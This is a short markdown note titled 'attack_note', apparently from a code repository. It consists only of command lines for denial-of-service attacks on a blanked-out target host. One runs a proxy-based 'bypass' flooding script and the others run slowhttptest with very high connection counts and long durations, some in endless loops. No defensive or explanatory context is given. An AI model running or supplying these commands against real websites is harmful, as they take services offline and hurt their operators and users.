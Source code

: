 # attack_note

``` python3 start.py bypass https://?.com 5 101 socks5.txt 100 3600 true ```

``` slowhttptest -c 10239 -l 36000 -H -x 24 -p 3 -r 20000 -t GET -i 10 -u http://?.com ```

``` while true; do slowhttptest -H -c 10239 -r 15321 -l 86400 -u http://?.com -s 512 -t GET -v 3; done ```

``` while true; do slowhttptest -B -c 10239 -r 15321 -l 86400 -u http://?.com -s 4096 -t POST -f application/x-www-form-urlencoded -x 4 -v 2; done; ```
